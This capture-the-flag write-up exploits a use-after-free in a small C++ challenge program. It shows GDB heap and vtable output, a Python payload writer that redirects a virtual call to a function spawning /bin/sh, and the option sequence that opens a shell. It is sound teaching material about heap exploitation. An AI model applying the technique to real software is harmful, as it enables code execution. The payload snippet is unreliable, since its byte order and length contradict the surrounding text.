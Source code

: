 ## Use After Free

### Analysis

The uaf.cpp has a simple switch which creates 2 objects - these objects call methods from vtable
It also reads a file of our choice and allocates that data. This program also gives us a control of which function we want to call first via switch case.

```C
switch(op){
                        case 1:
                                m->introduce();
                                w->introduce();
                                break;
                        case 2:
                                len = atoi(argv[1]);
                                data = new char[len];
                                read(open(argv[2], O_RDONLY), data, len);
                                cout << "your data is allocated" << endl;
                                break;
                        case 3:
                                delete m;
                                delete w;
                                break;
                        default:
                                break;
                }
```

`give_shell` method is the one, we need to call instead of introduce.

```Cpp


class Human{
private:
        virtual void give_shell(){
                system("/bin/sh");
        }
protected:
        int age;
        string name;
public:
        virtual void introduce(){
                cout << "My name is " << name << endl;
                cout << "I am " << age << " years old" << endl;
        }
};
```


Using `GEF` (GDB Enhanced Features) we can analyse binary. After disassembling main function, we can find that before creation of object, a new heap chunk is created.
 
 ```bash
   0x0000000000400f00 <+60>:    call   0x400d90 <operator new(unsigned long)@plt>
   0x0000000000400f05 <+65>:    mov    rbx,rax
   0x0000000000400f08 <+68>:    mov    edx,0x19
   0x0000000000400f0d <+73>:    mov    rsi,r12
   0x0000000000400f10 <+76>:    mov    rdi,rbx
   0x0000000000400f13 <+79>:    call   0x401264 <Man::Man(std::basic_string<char, std::char_traits<char>, std::allocator<char> >, int)> 
```

If we set a breakpoint after calling `Man()` constructor, we can use `heap chunks` to check them.

```bash
Chunk(addr=0x6152e0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x00000000006152e0     70 15 40 00 00 00 00 00 19 00 00 00 00 00 00 00    p.@.............]
```
This tells us, that we have created a heap chunk on address `0x6152e0`, with size `0x20` (32, size passed to `new()` was 18 but due to 8 or 16 byte alingment (based on system) it grows to 32)

We can examine the chunk using `x/xg 0x6152e0` and see the address to vtable. 

```bash
gef➤  x/4xg 0x0000000000401570
0x401570 <vtable for Man+16>:   0x000000000040117a      0x00000000004012d2
0x401580 <vtable for Human>:    0x0000000000000000      0x00000000004015f0
```

The 2 addresses in vtable are for methods `give_shell()` and `introduce()`, we can examine them to confirm it.

```bash
gef➤  x/xg 0x000000000040117a
0x40117a <Human::give_shell()>: 0x10ec8348e5894855
```

After using program with third option (delete), we can examine chunk once again and see, that vtable address is erased, but the vtable itself still contains addresses to the virtual functions.
We can also use `heap bins` to see freed chunks and their sizes.

```bash
gef➤  heap bins
──────────────────────────────────────────────────────────────────────────────────────────────────────── Tcachebins for thread 1 ────────────────────────────────────────────────────────────────────────────────────────────────────────
Tcachebins[idx=0, size=0x20, count=2] ←  Chunk(addr=0x615330, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  ←  Chunk(addr=0x6152e0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA) 
Tcachebins[idx=1, size=0x30, count=2] ←  Chunk(addr=0x615300, size=0x30, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  ←  Chunk(addr=0x6152b0, size=0x30, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA) 

```

### Exploit

If the freed chunks are the same size as the new data we want to allocate, our heap manager will reuse those old heap chunks. Using this behavior, we can use option `2` to allocate a `data` array with a size of `0x18` (24 bytes, the same size as our previous data). This allocation will overwrite the `Man` and `Woman` chunks. After this, we can use option `1` to call the `introduce()` method; however, due to the overwritten vtable, it will incorrectly call `give_shell()` instead.

If we create a file containing 24 characters and use it as an argument file for our program, we can see that `heap chunks` are reused by using options `3` and then `2`. This shows that our heap chunks were reused.

Additionally, we need to reuse the `Woman` chunk to prevent our program from segfaulting. To achieve this, we simply need to use option `2` twice, allowing us to allocate two objects.

The last piece of the puzzle is understanding how `m->introduce()` works. It first accesses the vtable address, which points to two addresses, and then calls `(*vtable) + 8`. To call `give_shell()` instead of `introduce()`, we set `vtable_address` to `vtable_address - 8`, which is `0x0000000000401568`.

This python code will write our exploit, that has 16 characters followed by address of our function address.

```Python
with open("./tmp", "wb") as f:
    f.write(b'\x68\x15\x40\x00\x00\x00\x00\x00\x00' + 16* b'Y' )
```

After running this script, we can call
```bash
./uaf 24 tmp
```
and then use options `3`, `2`, `2`, `1` to access shell.
